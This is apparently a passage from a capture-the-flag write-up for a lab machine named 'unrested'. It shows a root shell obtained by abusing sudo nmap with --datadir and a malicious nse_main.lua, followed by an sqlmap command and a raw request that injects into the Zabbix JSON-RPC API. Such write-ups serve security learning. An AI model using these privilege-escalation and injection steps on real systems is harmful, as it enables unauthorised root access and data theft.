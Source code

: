 We can also abuse the `--datadir` option
The default value is `/usr/share/nmap`:
```
zabbix@unrested:~$ ls -al /usr/share/nmap
total 9192
drwxr-xr-x   4 root root    4096 Dec  1  2024 .
drwxr-xr-x 126 root root    4096 Dec  3  2024 ..
-rw-r--r--   1 root root   10556 Jan 12  2023 nmap.dtd
-rw-r--r--   1 root root  717314 Jan 12  2023 nmap-mac-prefixes
-rw-r--r--   1 root root 5002931 Jan 12  2023 nmap-os-db
-rw-r--r--   1 root root   14579 Jan 12  2023 nmap-payloads
-rw-r--r--   1 root root    6703 Jan 12  2023 nmap-protocols
-rw-r--r--   1 root root   49647 Jan 12  2023 nmap-rpc
-rw-r--r--   1 root root 2461461 Jan 12  2023 nmap-service-probes
-rw-r--r--   1 root root 1000134 Jan 12  2023 nmap-services
-rw-r--r--   1 root root   31936 Jan 12  2023 nmap.xsl
drwxr-xr-x   3 root root    4096 Dec  1  2024 nselib
-rw-r--r--   1 root root   48404 Jan 12  2023 nse_main.lua
drwxr-xr-x   2 root root   36864 Dec  1  2024 scripts

```

Every time `nmap` is run with `-sC` it runs the `nse_main.lua` file. If I create a new directory and tell `nmap` that directory is the data directory it loads it
```
zabbix@unrested:~$ echo 'os.execute("/bin/bash")' > /tmp/nse_main.lua
zabbix@unrested:~$ sudo /usr/bin/nmap --datadir /tmp -sC localhost   
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-01 01:25 UTC
root@unrested:/var/lib/zabbix# reset: unknown terminal type unknown
Terminal type? screen
root@unrested:/var/lib/zabbix# id
uid=0(root) gid=0(root) groups=0(root)
```

# Beyond the footpath
We can also use `sqlmap` to help us dump all the database
```
sqlmap -r sql.req --level=5 --risk=3 --batch --flush-session --dbms=MySQL  --technique=U 
```
Our `sql.req` would be
```
POST /zabbix/api_jsonrpc.php HTTP/1.1
Host: 10.10.11.50
User-Agent: curl/8.14.1
Accept: */*
Content-Type: application/json-rpc
Content-Length: 317
Connection: close

{
  "jsonrpc": "2.0",
  "id": 1,
"auth": "1a09915e8c868b14ca2f5d44315d56fe",
  "method": "user.get",
  "params": {
    "output": [],
    "selectRole": [
       "*"
    ],
    "editable": 1
  }
}
```
Use `*` as injection point for nested JSON keys.
